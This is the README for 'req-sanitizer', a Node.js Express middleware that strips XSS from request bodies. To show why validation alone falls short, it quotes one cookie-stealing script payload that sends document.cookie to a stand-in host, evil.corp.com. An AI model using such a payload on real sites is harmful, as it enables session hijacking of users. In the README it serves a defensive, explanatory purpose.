 [![Pull requests](https://img.shields.io/badge/PRs-Welcome-brightgreen.svg)](https://github.com/peerquery/req-sanitizer/pulls)
[![Build status](https://travis-ci.org/peerquery/req-sanitizer.svg?branch=master)](https://travis-ci.org/peerquery/req-sanitizer)
[![Dep tracker](https://david-dm.org/peerquery/req-sanitizer.svg)](https://david-dm.org/peerquery/req-sanitizer)
[![Codebase license](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/peerquery/req-sanitizer/blob/master/LICENSE)

# req-sanitizer

`Node.js` middleware to sanitize the `req.body` object and all its values against XSS.

## What this module does

When configured right, this module sanitizes the `req.body` of HTML XSS on all requests with just one line of code! You can now safely processes, store and render the values without the need to re-sanitize them.

This module is built on the blazingly fast and secure [XSS Filters](https://www.npmjs.com/package/xss-filters) library by [Yahoo](https://yahoo.github.io/secure-handlebars/xssfilters.html)!

## Warning!?

This module does not sanitize against `operator` injection for Mongo DB or any other DB. If you are using Mongo DB, consider including [Express Mongoose Sanitize](https://www.npmjs.com/package/express-mongo-sanitize) for projection against `operator injection`.

## Installation

```
npm install --save req-sanitizer
```

## Usage

```javascript

var reqSanitizer = require('req-sanitizer');
Mount the middleware below the bodyParser() instantiations and above mounting of your routes

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(reqSanitizer()); // this line follows bodyParser() instantiations

```

**One liner**

```javascript

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

// Mount first before any other req function or router
app.use(require('req-sanitizer')); // this line follows bodyParser() instantiations

```

### That is all!

All your `req.body` values are sanitized against XSS! You can stored them directly in the DB and display them directly on HTML without the need to sanitize them again.

All input from your APIs and POST methods are sanitized. However remember you still need to sanitize for the DB. At Peer Query we use [express-mongo-sanitize](https://npm.js.com/package/express-mongo-sanitize).


## Sanitization is hard!

Did you know that you need to sanitize your content twice? One for the DB and one for HTML. Did you also know that validating does not make your data secure? Validating data type would see this script get through:

`'<script>location.href='http://evil.corp.com?cookie='+document.cookie;</script>'`

That is a valid string. Lets say that is what someone entered into the name input field on your site's contact form. And you assumed that only the message `body` could contain XSS so you sanitized only that field!

When you rendered this user's info on your site, the above script would run! At the same time, let say you tried to individually sanitize all fields with a custom `sanitize()` module:

```javascript
var messageData = {
    name : sanitize(req.body.name),
    email : sanitize(req.body.email),
    message : sanitize(req.body.message),
    time : sanitize(req.body.time)
};

messageController.addMessage(req,res,messageData);
```

This would be too much bloat, without even mentioning that you would have to repeat this configuration for every single controller and API! What happens when you miss one of those fields? You are a toast. Save yourself hassle and automate this entire hassle with this module.

## Sanitization is required multiples times

Mongoose and MYSQL have their own sanitizing schemes, however implementing that does not make your content secure. For a secure system you need to sanitize all input into your DB.

Sanitizing is a must for all secure web apps. Unfortunately, for Node.js there has been very scanty **accurate** information on the topic. A lots of Node.js sanitization libraries are either outdated or no longer maintained. In the mean while, most sanitization efforts focus on sanitizing only a single object, such data from a certain endpoint, DB or API.

Read this detailed post to get the full concept as well as the severity of the issue: [5 Steps to Handling Untrusted Node.js Data](https://lockmedown.com/5-steps-handling-untrusted-node-js-data/)

## Contribution is welcome.

I was inspired to build it after finding out that there was virtually no plug-and-play middleware for `Node.js` to sanitize the `req.body`. 
